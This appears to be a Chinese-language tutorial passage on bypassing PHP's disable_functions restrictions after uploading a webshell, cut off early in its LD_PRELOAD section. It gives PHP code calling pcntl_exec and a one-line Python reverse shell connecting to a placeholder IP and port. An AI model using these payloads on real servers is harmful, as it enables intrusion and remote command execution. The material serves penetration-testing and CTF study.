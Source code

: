 

# 常见 Bypass Disable Functions 方法

# [](#%E5%B8%B8%E8%A7%81-bypass-disable-functions-%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93)常见 Bypass Disable Functions 方法总结

## [](#1-%E8%83%8C%E6%99%AF)1 背景

`PHP.ini` 中可以设置禁用一些危险函数，例如 eval、exec、system 等，将其写在 php.ini 配置文件中，就是我们所说的 `disable_functions` 了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在 disable\_functions 的设置中也通常较为严格。

如果在渗透时，上传了 webshell 却因为 disable\_functions 禁用了函数而无法执行命令，这时候就需要想办法进行绕过，突破 disable\_functions。

## [](#2-%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87)2 黑名单绕过

即便是通过 disable functions 限制危险函数，也可能会有限制不全的情况。可以执行命令的函数可以参考：[PHP webshell 检测](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)。还有一个比较常见的易被忽略的函数就是 `pcntl_exec`。

> pcntl 是 linux 下的一个扩展，可以支持 php 的多线程操作。很多时候会碰到禁用 exec 函数的情况，但如果运维人员安全意识不强或对 PHP 不甚了解，则很有可能忽略 pcntl 扩展的相关函数。

使用 `pcntl_exec` 的前提是开启了 `pcntl` 插件。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>if(function_exists('pcntl_exec')) {<br>   pcntl_exec("/bin/bash", array("/tmp/test.sh"));<br>} else {<br>       echo 'pcntl extension is not support!';<br>}<br>?><br>``` |

由于 `pcntl_exec()` 执行命令是没有回显的，所以其常与 python 结合来反弹 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```php<br><?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));<br>``` |

[蓝帽杯决赛](https://whoamianony.top/2020/12/21/CTF%e6%af%94%e8%b5%9b%e8%ae%b0%e5%bd%95/%e7%ac%ac%e5%9b%9b%e5%b1%8a%e2%80%9c%e8%93%9d%e5%b8%bd%e6%9d%af%e2%80%9d%e5%85%a8%e5%9b%bd%e5%a4%a7%e5%ad%a6%e7%94%9f%e7%bd%91%e7%bb%9c%e5%ae%89%e5%85%a8%e6%8a%80%e8%83%bd%e5%a4%a7%e8%b5%9b%e5%86%b3%e8%b5%9bWriteUp/#php)中存在相关利用方式。

## [](#3-%E5%88%A9%E7%94%A8-ld_preload-%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)3 利用 LD\_PRELOAD 环境变量

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

`LD_PRELOAD` 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它可以在用户的程序运行前优先加载该动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，可以利用此功能来使用自定义的函数，而另一方面，可以向别人的程序注入程序，从而达到特定的攻击目的。

前提：
